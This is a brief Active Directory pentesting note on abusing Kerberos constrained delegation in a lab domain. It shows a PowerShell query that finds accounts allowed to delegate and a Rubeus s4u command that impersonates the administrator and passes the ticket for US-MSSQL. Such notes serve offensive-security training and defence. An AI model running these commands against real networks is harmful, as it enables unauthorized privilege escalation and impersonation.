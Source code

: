 # Constrained delegation

Constrained delegation (CD) is similar to [unconstrained-delegation.md](unconstrained-delegation.md "mention"), but in this case the server that has CD can delegate a Kerberos ticket to only a subset of services.

This property is written in the attribute `msDS-AllowedToDelegateTo`.

## List devices that support CD

```powershell
> Get-ADObject -Filter { msDS-AllowedToDelegateTo -ne "$null" } -Properties msDS-AllowedToDelegateTo
DistinguishedName        : CN=appsvc,CN=Users,DC=us,DC=techcorp,DC=local
msDS-AllowedToDelegateTo : {CIFS/us-mssql.us.techcorp.local, CIFS/us-mssql}
Name                     : appsvc
ObjectClass              : user
ObjectGUID               : 4f66bb3a-d07e-40eb-83ae-92abcb9fc04c
```

This means that the user `appsvc` has constrained delegation to the server `US-MSSQL` on the SMB service (CIFS).

## Impersonate privileged user

The user `appsvc` can impersonate any user on the machine `US-MSSQL`. It is even possible to change the service that we want to use, using [s4u.md](s4u.md "mention"):

```powershell
> .\Rubeus.exe s4u /user:appsvc /aes256:<key> /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

It is then possible to authenticate to `US-MSSQL` ([ad-authentication.md](../misc/ad-authentication.md "mention")) we have domain admin privileges on this machine but we are limited to this machine.
